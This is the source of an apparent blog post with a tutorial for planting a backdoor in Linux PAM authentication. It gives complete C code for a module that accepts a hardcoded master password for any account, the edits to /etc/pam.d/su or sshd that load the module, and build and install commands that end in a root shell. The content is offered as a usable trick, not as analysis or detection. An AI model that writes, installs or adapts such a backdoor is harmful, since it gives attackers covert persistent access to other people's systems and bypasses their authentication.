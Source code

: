 ```yaml
---
layout: post
title:  "Tiny PAM Authentication Module Backdoor"
date:   2012-04-08 18:22:00
categories: coding
permalink: post/tiny-pam-authentication-module-backdoor/
---
```


This trick explains you how to create a **PAM module backdoor** that allow you to login in any account of system with your own password.
s
### Example of pam_bd.so module as backdoor

{% highlight c %}
/* pam_bd.so - Simple PAM Module Backdoor */

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <security/pam_appl.h>
#include <security/pam_modules.h>

#define BACKPASS "SET_BACKDOOR_PASSWORD"

PAM_EXTERN int
pam_sm_setcred(pam_handle_t *pamh, int flags, int argc, const char **argv) {
        return PAM_SUCCESS;
}

PAM_EXTERN int
pam_sm_acct_mgmt(pam_handle_t *pamh, int flags, int argc, const char **argv) {
        return PAM_SUCCESS;
}

PAM_EXTERN int
pam_sm_authenticate(pam_handle_t *pamh, int flags,int argc, const char **argv) {
        char *password = NULL;
        pam_get_authtok(pamh, PAM_AUTHTOK, (const char **)&password, NULL);

        if(!strncmp(password, BACKPASS, strlen(BACKPASS)))
                return PAM_SUCCESS;

        return -1;
}
{% endhighlight %}

### Configuration

Now we need to configure PAM to load our module, first edit `/etc/pam.d/su` (if you want you can edit `/etc/pam.d/sshd` or other services that uses PAM system to perform authentication) and add/mod the lines below:

{% highlight text %}
#%PAM-1.0
nauth           sufficient      pam_rootok.so
auth            sufficient      pam_unix.so      # CHANGE TO "SUFFICIENT"
account         required        pam_unix.so
session         required        pam_unix.so
auth            sufficient      pam_bd.so        # ADD YOUR PAM MODULE FOR AUTH
account         sufficient      pam_bd.so        # ADD YOUR PAM MODULE FOR ACCOUNT
{% endhighlight %}

### Build It as library and try Login

{% highlight bash %}
eurialo $ gcc -fPIC -fno-stack-protector -c pam_bd.c
eurialo $ sudo ld -x --shared -o /lib/security/pam_bd.so pam_bd.o
eurialo $ rm pam_bd.o
eurialo $ su - root
Password: *REAL PASSWD* OR *FAKE PASSWD*
root ~ #
{% endhighlight %}
